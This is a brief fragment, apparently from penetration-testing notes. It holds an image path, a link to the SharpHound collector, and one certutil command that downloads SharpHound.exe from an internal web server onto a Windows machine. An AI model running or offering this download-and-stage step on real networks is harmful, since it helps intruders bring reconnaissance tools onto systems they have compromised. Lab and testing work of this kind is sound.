 
https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.exe


certutil -urlcache -split -f http://10.250.1.6:8000/SharpHound.exe SharpHound.exe



